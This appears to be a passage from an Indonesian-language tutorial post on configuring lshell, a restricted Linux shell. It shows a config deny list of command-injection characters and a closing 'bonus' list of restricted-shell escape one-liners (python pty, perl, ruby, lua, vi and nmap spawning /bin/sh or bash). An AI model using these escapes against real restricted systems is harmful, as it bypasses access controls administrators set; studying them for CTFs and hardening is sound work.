 ##  a list of forbidden character or commands -- deny vim, as it allows to escape lshell
forbidden       : [';', '&', '|','`','>','<', '$(', '${']

------skip------

note : dibagian allowed kita bisa menambahkan command yang (bisa) digunakan. jadi hanya perintah yang didaftarkan saja yang bisa digunakan, yang tidak ditambahkan tidak dapat digunakan.

[Image: pswPHDzkR-GkIUtZQT2Bcw.png]

penampakan :
https://asciinema.org/a/ZqbniPbF6ym33uQ7PbnCIIxY8

yarp sebenarnya masih banyak fungsi lshell yang lain, silahkan di explore lebih jauh lagi....
btw kita bisa memanfaatkan lshell untuk default login shell di ssh pada beberapa kondisi seperti untuk soal-soal remote easy CTF dan untuk nge-troll user-user nakal.. asal jangan di troll balik saja... tinggal pakai perintah chsh saja untuk user yang di inginkan...


BONUS :

Bypassing Shell :

Code:
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

-----------------------------

(From within IRB)

exec "/bin/sh"

-----------------------------
(From within vi)

:!bash

-----------------------------
(From within vi)

:set shell=/bin/bash:shell

-----------------------------
(From within nmap)

!sh

semoga aja settingan lshell atau other shell bisa di spawn.. :p


Referensi :
https://packages.debian.org/wheezy/lshell
https://tecadmin.net/how-to-limit-user-a...ted-shell/
https://www.aldeid.com/wiki/Lshell
https://netsec.ws/?p=337
